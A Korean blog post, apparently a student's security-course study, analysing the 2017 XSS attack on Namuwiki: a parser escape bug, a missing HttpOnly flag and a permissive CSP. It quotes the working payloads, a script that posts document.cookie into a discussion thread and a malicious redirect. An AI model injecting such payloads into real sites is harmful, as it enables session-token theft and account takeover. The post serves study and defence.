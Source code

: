 ```yaml
---
title: XSS 공격 사례 스터디 (나무위키)
date: 2024-11-12 12:00:00 +0900
categories: [개발, 웹]
tags: [web, xss, study, 나무위키] # TAG names should always be lowercase
---
```


2025-04+ 이전에 정보보안 과목 자유 리포트를 위해 노션에 정리하였던 내용을 옮겼습니다.

- `공격 유형`: **XSS**
- `공격 대상`: 나무위키 (namu.wiki)
- `취약점`: 마크다운 **파서-렌더러** 에서의 취약점으로 인한 임의 코드 실행
- `피해` :
  - ‘자동 로그인을 사용 중이고 당시 공격 목표 리소스에 접속한 8명의 자동 로그인 토큰 유출’
    → 기밀성 훼손
  - 서비스의 데이터 훼손 → 위의 계정 탈취로 인한 피해 + 복구 가능한 훼손
    → 일시적 무결성 훼손
  - 공격자에 의해 비정상적인 방법으로 사용자를 리다이렉팅
    → 가용성 훼손 (리다이렉팅 스크립트 주입이 이루어진 문서에서는 정상 동작이 어려워짐)

---

ref. 해당 사이트 개발자의 보고서: [https://theseed.io/w/2017년 나무위키 XSS 공격 보고서](https://theseed.io/w/2017%EB%85%84%20%EB%82%98%EB%AC%B4%EC%9C%84%ED%82%A4%20XSS%20%EA%B3%B5%EA%B2%A9%20%EB%B3%B4%EA%B3%A0%EC%84%9C)

### 공격 대상 사이트의 간략한 설명

---

**_해당 사이트의 기능_**

1. 나무위키는 내부적으로 나무위키의 문법을 파싱하고 렌더링하기 위한 `파서`를 가지고 있습니다.
2. `토론` 기능 (←실제 공격이 수행된 리소스)
   1. 나무위키는 문서 내용 수정에 관한 논의를 하기위한 `스레드 형식`의 게시판을 제공합니다.
   2. 해당 기능에서 또한 나무위키의 자체 마크다운 문법을 지원합니다.
3. `자동 로그인`
   1. 나무위키는 자동 로그인을 지원하고, 이를 위한 쿠키 정보가 유저의 기기에 저장됩니다.

### XSS 공격 유형에 대한 설명

---

1. `XSS` 란, `Cross-site Scripting` 의 약자 입니다.
2. 크로스 사이트 스크립팅 (XSS)은 공격자가 웹사이트에 악성 클라이언트 사이드 코드를 삽입할 수 있도록 하는 보안 취약점 공격입니다. (MDN web docs\_ 인용)
3. 오픈 웹 애플리케이션 보안 프로젝트에 따르면, XSS는 2017년에 [7번째로 흔한 웹 앱 취약점](<https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)>)이었습니다. (MDN web docs\_ 인용)
4. 즉 사용자의 클라이언트에서 공격자가 원하는 임의의 코드를 실행하도록 하는 공격입니다. (예를 들면 임의의 javascript 코드 실행)

### 취약점 설명

---

`[[파일:<script>$('textarea').val(document.cookie);$('form.new-thread-form').submit();</script>]]`

1. 위 입력은 해당 파일을 찾아서, 파일이 이미지이면 이미지를 보여주는 입력입니다.
2. 위와 같은 XSS 공격 입력이 들어왔을 때,
   “`<script>$('textarea').val(document.cookie);$('form.new-thread-form').submit();</script>`" 위 이름을 가진 파일을 찾지 못하여 fallback 이 실행되었습니다.
3. fallback 은 위 입력에서 html 문법에 매칭될 수 있는 텍스트(혹은 특수문자)를 찾아서, escape character (`\`) 처리를 해주어야 했습니다.
4. 그런데 개발자의 부주의로 escape 처리가 없었습니다. 따라서 위의 `<script>` 가 실제 태그로써 동작하도록 html이 생성되었습니다.

위는 XSS 공격의 직접적인 원인이 된 렌더링 과정의 취약점입니다. 실제 피해 내용은 다른 취약점이 결합되어서 발생하였습니다.

**HttpOnly [ref. mdn web docs\_](https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies#secure%EA%B3%BC_httponly_%EC%BF%A0%ED%82%A4)**

1. XSS 공격 피해를 방지하기 위해서 쿠키에는 **HttpOnly** 속성이 존재합니다.
2. 해당 속성이 걸린 쿠키는 클라이언트가 javascript의 `document.cookie`로 접근할 수 없습니다.
3. `일반 로그인 토큰`은 해당 속성이 걸려있었지만, 개발자의 부주의로 `자동 로그인 토큰` 에는 이 속성이 걸려있지 않았던 취약점이 존재하였습니다.

**CSP 의 주요 정책에 대한 비활성화 (인라인 스크립트)**

1. CSP의 주요한 정책중 하나는 `인라인 스크립트`를 비활성화 하는 것입니다.
2. `인라인 스크립트`는 html 의 `<script>` 태그를 말합니다.
3. 하지만 당시 나무위키는 어떤 이유로 `인라인 스크립트`를 **허용**하기 위해서 `unsafe-inline` 지시문을 포함하였습니다. (현재는 모르겠습니다)
4. 나무위키의 개발자는 이에 대해 **‘기술 부채’** 로 인하여 이와 같은 취약점 후보를 방치하였다고 합니다.

### 피해 설명

---

1. 공격을 받은 토론 스레드에 접속한 사용자가 원치 않은 사이트로 리다이렉트 되었습니다.

공격 코드 :`[[파일:<script>location.assign('https://공격자가.의도한.사이트');</script>]]`

1. 자동 로그인 인증에 필요한 토큰(비밀키)이 (공격자를 포함한) 불특정 다수에게 노출되었습니다.

공격 코드 :`[[파일:<script>$('textarea').val(document.cookie);$('form.new-thread-form').submit();</script>]]`

[이에 대한 부연 설명]

`CSP` 이 나무위키에 적용되었기 때문에, 토큰을 `XHR`(javascript의 http request api) 이나 `<img>` 태그 등의 방법으로 **_다른 서버_** 에 http로 날리는 행위가 불가능합니다. 따라서 공격자는 해당 `토론` 기능이 **글을 작성할 수 있는 공간**임을 이용하여, 쿠키를 입력창의 입력값으로 넣고 `submit()` 하였습니다.

이는 사용자가 직접 글을 작성하는 행위와 기능적으로 동일하기에, 사용자가 제출한 요청이 맞는지 확인하는 CSRF 방지 토큰과 같은 방법으론 해결할 수 없었습니다. (그리고 사실 CSRF 방지가 적용이 안되어 있었다고 합니다.)

아무튼 `CSP` 는 `XSS` 가 성공하더라도 피해를 줄일 뿐인 것 같습니다.

1. 관리 권한이 있는 계정이 탈취됨으로 인해 일반 유저가 수정하지 못하는 문서가 훼손되었습니다. (이는 나무위키에 각 문서에 버전 관리 시스템 기능이 있어서 쉽게 복구된 것 같습니다)

여러 다양한 추가 피해를 일으킬 수도 있었을텐데, 아마 공격자에게 그러한 의도가 없었을 것 같습니다.

### 감상?평

---

개발적인 관점에서는 취약점이 되기 쉬운 약점에 대해서는 1순위로 리팩토링해야 되지 않을까 생각합니다. 이를 미루는 순간 기술 부채가 쌓이는 것이죠. 저도 개발상의 편의로 보안 정책을 우회한 다음 `todo` 로 주석에 달아놓고 안고친 경험이 있는데, 반성해야겠습니다.

![licence-plate-sql-injection.png](/assets/img/posts/licence-plate-sql-injection.png)

또한 역시 스크립트 인젝션 공격은 끝이 없다고 느낍니다. 모든 입력을 철저하게 검증하는 것이 중요하다고 느낍니다.
